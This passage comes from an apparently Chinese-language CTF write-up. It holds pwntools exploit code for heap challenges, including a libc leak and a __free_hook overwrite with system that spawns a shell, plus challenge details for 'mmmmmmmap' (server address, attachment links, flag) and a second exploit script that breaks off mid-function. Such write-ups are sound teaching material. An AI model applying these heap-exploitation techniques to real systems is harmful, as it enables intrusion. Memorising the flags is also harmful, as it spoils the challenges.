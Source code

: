 ```python
libc_base=u64(r.recv(8))-libc.sym['__malloc_hook']-0x70
success("libc_base: "+hex(libc_base))

free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']

write(free_hook,p64(system))
edit(3,'/bin/sh\x00\n')
delete(3)

#gdb.attach(r)

r.interactive()
```

### mmmmmmmap

出题人ID: 影二つ

题目描述:

```
你从未见过的船新版本，我在malloc等你
nc 129.211.173.64 10004
```

附件链接:

```
http://download.kagehutatsu.com/Download/mmmmmmmap.zip
https://attachment.h4ck.fun:9000/pwn/mmmmmmmap/mmmmmmmap.zip
https://nctf.slight-wind.com/pwn/mmmmmmmap/mmmmmmmap.zip
```

flag:

```
flag{d010887a870d12833465e98b8abf2bb2}
```

```python
from pwn import *
#r=remote("129.211.173.64",10004)
r=process('./main')
context.log_level='debug'

libc=ELF("./libc-2.31.so")

def new(size,content):
	r.recvuntil(': ')
	r.sendline('1')
	r.recvuntil('Size: ')
	r.sendline(str(size))
	r.recvuntil('Content: ')
	r.send(content)

def edit(idx,content):
	r.recvuntil(': ')
	r.sendline('2')
	r.recvuntil('Index: ')
	r.sendline(str(idx))
	r.recvuntil('Content: ')
	r.send(content)

def delete(idx):
	r.recvuntil(': ')
	r.sendline('3')
	r.recvuntil('Index: ')
```